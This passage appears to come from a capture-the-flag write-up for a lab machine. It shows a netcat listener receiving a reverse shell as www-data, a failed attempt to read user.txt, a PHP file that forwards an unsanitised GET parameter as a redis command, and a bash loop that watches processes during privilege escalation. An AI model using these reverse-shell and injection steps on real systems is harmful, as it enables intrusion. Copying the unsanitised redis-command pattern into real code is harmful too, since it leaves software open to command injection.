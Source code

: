    ```

   root@kali# nc -lnvp 223
   listening on [any] 223 ...
   connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 41236
   /bin/sh: 0: can't access tty; job control turned off
   $ id
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   $ hostname
   www

   ```

Now, I can see `user.txt`… but I can’t open it:

```

$ cd /home/somaro
$ ls
user.txt
$ cat user.txt
cat: user.txt: Permission denied

```

I can also see `ajax.php`, which shows the commands running at the redis server:

```

<?php

require_once 'lib/Autoloader.php';
Autoloader::register();
$json = new JsonResult();
$config = new Config();
foreach ($config->getPool() as $key => $server) {
        $client = new Client($server);
        $result = $client->sendCmd($_GET['test']);
        echo $result;
}

```

## Privesc: www-data –> root (user.txt)

### Identifying Backup Cron

To get to `user.txt`, I’ll need to privesc. Looking around the box, there wasn’t a ton going on, so I decided to look for interesting processes starting and stopping. I’ve been a huge fan of `pspy` in the past for this, but since I’m two hops deep at this point, I’ll just using a bash script:

```

#!/bin/bash

IFS=$'\n'

old=$(ps -eo command)
while true; do
    new=$(ps -eo command)
    diff <(echo "$old") <(echo "$new") | grep [\<\>]
    sleep .3
    old=$new
done

```
